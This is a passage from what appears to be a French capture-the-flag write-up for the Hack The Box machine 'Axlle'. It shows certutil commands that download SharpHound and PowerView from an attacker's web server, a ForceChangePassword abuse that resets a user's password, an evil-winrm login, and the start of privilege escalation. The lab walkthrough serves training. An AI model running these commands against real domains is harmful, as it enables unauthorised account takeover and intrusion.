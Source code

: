 ```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/SharpHound.exe sharphound.exe
```

Après l'avoir exécuté, téléchargez le fichier `zip`.

![sharphound zip file](/images/HTB-Axlle/sharphound_zip_file.png)

Décompressez-le et importez les fichiers dans Bloodhound.

Trouvez `dallon.matrix` et vous verrez qu'il est membre du groupe `Web Devs`.

![web devs group](/images/HTB-Axlle/web_devs_group.png)

Les membres du groupe `Web Devs` peuvent changer le mot de passe de `Baz.Humphries` et `Jacob.Greeny` à cause de `ForceChangePassword` dont nous pouvons abuser avec [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

> Cet attribut de compte permet d'appliquer un changement de mot de passe même sans connaître le mot de passe actuel de l'utilisateur. *Pour en savoir plus, cliquez [ici](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#forcechangepassword).*

![ForceChangePassword](/images/HTB-Axlle/ForeceChangePassword.png)

Nous importons PowerView sur la cible.

```
certutil.exe -urlcache -split -f http://YOUR_IP:WEBSERVER_PORT/PowerView.ps1 powerview.ps1

Import-Module ./powerview.ps1
```

Nous changeons le mot de passe de `baz.humphries`.

```
$pass = ConvertTo-SecureString 'PleaseLetMeIn007!' -AsPlainText -Force

Set-DomainUserPassword -Identity Baz.Humphries -AccountPassword $pass
```

![Baz Humphries password change](/images/HTB-Axlle/password_change.png)

Nous nous connectons avec evil-winrm en tant que `baz.humphries`.

```
evil-winrm -u "baz.humphries" -p PleaseLetMeIn007! -i axlle.htb
```

![Baz Humphries login](/images/HTB-Axlle/baz_humphries_login.png)

## Elévation de Privilèges

Dans `C:\App Development\kbfiltr` nous trouvons un fichier `README.md`. L'une des lignes se lit comme suit "**NOTE: I have automated the running of `C:\Program Files (x86)\Windows Kits\10\Testing\StandaloneTesting\Internal\x64\standalonerunner.exe` as SYSTEM to test and debug this driver in a standalone environment**".
